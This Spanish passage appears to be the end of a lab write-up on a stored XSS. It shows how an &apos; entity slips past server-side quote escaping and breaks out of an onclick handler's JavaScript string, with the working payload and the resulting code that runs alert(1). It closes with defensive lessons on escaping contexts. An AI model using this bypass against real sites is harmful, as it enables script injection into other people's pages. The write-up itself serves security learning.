Los intentos directos con comillas simples fallan porque el servidor las escapa. Pero `&apos;` no es una comilla simple desde el punto de vista del servidor. Es una entidad HTML. El servidor la deja pasar. Luego el navegador la decodifica a una comilla real durante el parseo HTML.

El payload final:

```text
http://pepe?&apos;-alert(1)-&apos;
```

termina convertido en:

```javascript
tracker.track('http://pepe?'-alert(1)-'');
```

Al hacer clic en el nombre del autor, el navegador ejecuta el `onclick`, evalúa el argumento de `tracker.track(...)`, y durante esa evaluación ejecuta:

```javascript
alert(1)
```

Por eso el laboratorio se resuelve.

La lección importante es:

```text
Escapar para HTML no protege JavaScript.
Escapar para JavaScript no basta si antes hay una fase de HTML parsing.
No metas input de usuario dentro de manejadores inline como onclick.
```

---

## 27. Resumen final en una frase

El ataque funciona porque el servidor no interpreta `&apos;` como comilla peligrosa, pero el navegador sí la convierte en una comilla real antes de ejecutar el `onclick`, permitiendo romper la cadena JavaScript y ejecutar `alert(1)` al hacer clic en el autor del comentario.
